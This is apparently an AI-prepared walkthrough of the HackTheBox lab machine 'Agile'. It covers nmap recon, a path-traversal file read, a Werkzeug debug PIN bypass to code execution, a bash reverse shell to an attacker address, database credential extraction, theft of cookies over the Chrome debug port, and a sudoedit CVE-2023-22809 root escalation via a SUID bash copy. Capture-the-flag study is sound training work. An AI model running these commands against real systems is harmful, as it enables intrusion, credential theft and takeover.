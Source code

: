 # HTB: Agile  
[HTB](HTB)

---

**Machine Info:**
- **IP**: `10.10.11.203`
- **OS**: Linux 🐧
- **Difficulty**: [Medium](Medium)
- **Exploits Used**:
  - [HTTP](HTTP) File Read Vulnerability via `/download?fn=...`
  - Flask Debug Mode Code Execution via Werkzeug PIN Bypass
  - Database Credential Extraction 🐍
  - Chrome Remote Debugging Cookie Stealing 🥸
  - [Sudoedit](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) via CVE-2023-22809 to escalate to root 🧨
- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (80)

---

[Tools](Tools)
- `nmap` 🛰️
- `feroxbuster` 🦡
- `curl` 🌐
- `Burp Suite` 🐞
- `sshpass` 🧑‍💻
- `mysql` 🐬
- `Chromium DevTools` 🔧
- `nc` 📞
- `Selenium` 🧪
- `pytest` 🔁
- `sudoedit` ✍️

---

### Commands to Solve Box

#### 🧭 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.203
nmap -p 22,80 -sCV 10.10.11.203
feroxbuster -u http://superpass.htb --dont-extract-links
```

#### 🪝 Initial Access (www-data)
- Exploit `/download?fn=../../../../etc/passwd` to confirm file read vuln.
- Leak Flask Debug PIN via [Werkzeug debug PIN generation](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution).
- Use leaked info to generate correct PIN and gain RCE via Flask console.
- Spawn reverse shell via `os.system('bash -c "bash -i >& /dev/tcp/10.10.14.X/443 0>&1"')`.

#### 📂 Escalation to User corum
- Read `/app/config_prod.json` and connect to DB using `mysql`.
- Extract corum’s password from DB and login via `sshpass`.

```bash
mysql -u superpassuser -p'dbpassword' superpass
```

#### 🧪 Shell as edwards
- Tunnel `localhost:5555` and `localhost:41829` using:
```bash
ssh -L 5555:localhost:5555 -L 41829:localhost:41829 corum@superpass.htb
```
- Access [Chrome Debugger](chrome://inspect) and steal cookies for edwards.
- Reuse cookie to extract password, login via `ssh`.

#### 🚨 Root Access
- Exploit [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) using `sudoedit` with `EDITOR='vim -- /app/venv/bin/activate'`.
- Inject:
```bash
cp /bin/bash /tmp/0xdf; chmod +s /tmp/0xdf
```
- Wait for cron/root login, then:
```bash
/tmp/0xdf -p
```

---

### ✅ Actions Learned From This Box
- 🧠 Deep understanding of Flask’s debug mode and Werkzeug PIN generation.
- 🐍 How Python virtual environments interact with `bashrc`.
- 🔎 Abuse of Chrome remote debugging via dev test pipelines.
- ⚠️ The power (and danger) of misconfigured `sudoedit` privileges.
- 🧬 Realistic dev-to-prod test integration flaws, great CI/CD misconfig example.
- 🎯 Tunneling techniques for local-only service access.

---

### References 📚
- 📖 [HackTricks: Flask Debug RCE](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution)
- 📖 [CVE-2023-22809 sudoedit Exploit](https://www.qualys.com/2023/01/30/cve-2023-22809/cve-2023-22809.txt)
- 🛠️ [Werkzeug Source for PIN Gen](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)
- 🧪 [Selenium Chrome Debug Port Abuse](https://security.snyk.io/vuln/SNYK-PYTHON-SELENIUM-3187814)
- 🧠 [0xdf's Full Write-up](https://0xdf.gitlab.io/2023/08/05/htb-agile.html)

---

Let me know when you want the next one prepped like this! 💻🔥